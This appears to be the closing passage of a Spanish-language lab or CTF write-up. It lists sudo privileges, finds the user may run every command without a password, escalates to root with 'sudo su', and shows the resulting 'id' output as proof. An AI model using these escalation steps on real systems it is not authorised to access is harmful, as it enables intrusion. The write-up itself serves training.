 Ahora listamos los privilegios
```bash
sudo -l

User ninhack may run the following commands on 82eedf3128df:
    (ALL) NOPASSWD: ALL
```

Explotamos el privilegio
```bash
sudo su
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@82eedf3128df:# id
uid=0(root) gid=0(root) groups=0(root)
```